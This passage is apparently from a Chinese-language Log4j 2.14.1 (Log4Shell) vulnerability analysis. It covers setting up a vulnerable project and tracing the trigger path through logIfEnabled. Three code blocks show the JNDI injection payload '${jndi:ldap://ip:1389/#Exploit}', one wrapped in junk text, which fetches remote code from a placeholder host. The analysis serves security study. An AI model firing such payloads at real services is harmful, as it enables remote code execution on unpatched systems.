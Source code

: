 在[https://logging.apache.org/log4j/2.x/download.html](https://logging.apache.org/log4j/2.x/download.html) 下载编译好的Apache Log4j jar包

[![](https://p0.ssl.qhimg.com/t0183cff1a2245bedcc.png)](https://p0.ssl.qhimg.com/t0183cff1a2245bedcc.png)

最后在项目中添加log4j-core-2.14.1.jar 依赖

[![](https://p5.ssl.qhimg.com/t01d527e30c902b7501.png)](https://p5.ssl.qhimg.com/t01d527e30c902b7501.png)

将项目创建好后即可添加漏洞代码

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class Main `{`
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) `{`
        logger.error("$`{`jndi:ldap://ip:1389/#Exploit`}`");
    `}`
`}`
```



## 0x03 漏洞分析

### <a class="reference-link" name="0x1%20%E6%BC%8F%E6%B4%9E%E8%A7%A6%E5%8F%91"></a>0x1 漏洞触发

本次漏洞触发相当简单，只要使用了org/apache/logging/log4j/spi/AbstractLogger.java log进行记录，且log等级为可记录等级即可触发。

```
private static final Logger logger = LogManager.getLogger();
public static void main(String[] args) `{`
  logger.error("$`{`jndi:ldap://ip:1389/#Exploit`}`");
`}`
```

一旦在log字符串中检测到$`{``}`，就会解析其中的字符串尝试使用lookup查询，因此只要能控制log参数内容，就有机会实现漏洞利用。因此也可以使用如下方式触发

```
logger.error("8881273asdf$`{`jndi:ldap://ip:1389/#Exploit`}`aksdjfhuip8efas");
```

### <a class="reference-link" name="0x2%20%E5%85%A5%E5%8F%A3%E5%87%BD%E6%95%B0"></a>0x2 入口函数

本次漏洞的入口函数为logIfEnabled，然而如果使用了AbstractLogger.java中的debug、info、warn、error、fatal等都会触发到该函数

[![](https://p3.ssl.qhimg.com/t012ac8574e28368116.png)](https://p3.ssl.qhimg.com/t012ac8574e28368116.png)

[![](https://p2.ssl.qhimg.com/t01ccbae02b88089e94.png)](https://p2.ssl.qhimg.com/t01ccbae02b88089e94.png)

### <a class="reference-link" name="0x3%20%E6%A0%B8%E5%BF%83%E5%8E%9F%E7%90%86%E4%B9%8B%E5%8C%B9%E9%85%8D"></a>0x3 核心原理之匹配
